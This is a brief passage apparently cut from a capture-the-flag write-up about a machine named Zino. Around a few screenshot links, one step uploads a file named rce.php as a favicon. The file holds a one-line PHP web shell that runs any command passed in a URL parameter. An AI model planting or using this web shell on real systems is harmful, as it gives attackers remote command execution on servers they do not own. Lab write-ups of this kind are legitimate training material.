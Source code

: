 ![Zino](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/zino/image4.png)

2. Upload rce.php `<?php system($_GET['cmd']); ?>` as the Favicon

![Zino](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/zino/image5.png)

